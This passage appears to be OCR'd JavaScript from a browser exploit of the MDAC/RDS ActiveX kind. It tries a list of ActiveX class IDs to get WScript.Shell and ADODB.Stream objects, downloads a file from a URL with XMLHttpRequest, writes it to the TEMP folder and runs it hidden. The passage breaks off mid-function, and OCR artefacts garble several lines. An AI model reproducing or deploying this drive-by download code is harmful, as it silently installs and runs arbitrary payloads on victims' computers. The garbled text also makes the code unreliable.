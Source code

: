 ```javascript
        try {
            r = o.CreateObject(n, '', '')
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject('', n)
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject(n, '')
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject(n)
        } catch (e) {}
    }return r;
}function Go(a) {
    var s = CreateO(a, 'WScript.Shell');
    var o = CreateO(a, 'ADODB.Stream');
    var e = s.Environment('Process');
    var xhr = null;
    var bin = e.Item('TEMP') + '\\\\' + filename;
    try {
        xhr = new XMLHttpRequest();
    }catch(e) {
        try {
            xhr = new ActiveXObject('Microsoft.XMLHTTP');
        }\
        ncatch(e) {
            xhr = new ActiveXObject('MSXML2.ServerXMLHTTP');
        }
    }if(!xhr) return (0);
    xhr.open('GET', urltofile, false)\ nxhr.send(null);
    var filecontent = xhr.responseBody;
    o.Type = 1;
    o.Mode = 3;
    o.Open();
    o.Write(filecontent);
    o.SaveToFile(bin, 2);
    s.Run(bin, 0);
}function mdac() {
    var i = 0;
    var objects = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
    while (objects[i]) {
        var a = null;
        if (objects[i].substring(0, 1) == '{') {
            a = document.createElement('object');
            a.setAttribute('classid', 'clsid:' + objects[i].substring(1, objects[i].length - 1));
        } else {
            try {
                a = new ActiveXObject(objects[i]);
            } catch (e) {}
        }\
        nif(a) {
            try {
                var b = CreateO(a, 'WScript.Shell');
                if (b) {
                    if (Go(a)) {
```